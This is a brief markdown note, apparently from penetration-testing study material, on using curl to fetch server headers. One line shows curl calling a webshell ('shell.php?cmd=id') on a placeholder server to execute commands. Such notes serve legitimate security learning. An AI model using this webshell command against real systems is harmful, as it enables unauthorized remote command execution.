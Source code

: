 # Curl

We can use cURL to retrieve server header information from the command line.

- `curl -IL https://www.ourtarget.com`
- `curl http://SERVER_IP:PORT/shell.php?cmd=id` execute a command with a webshell.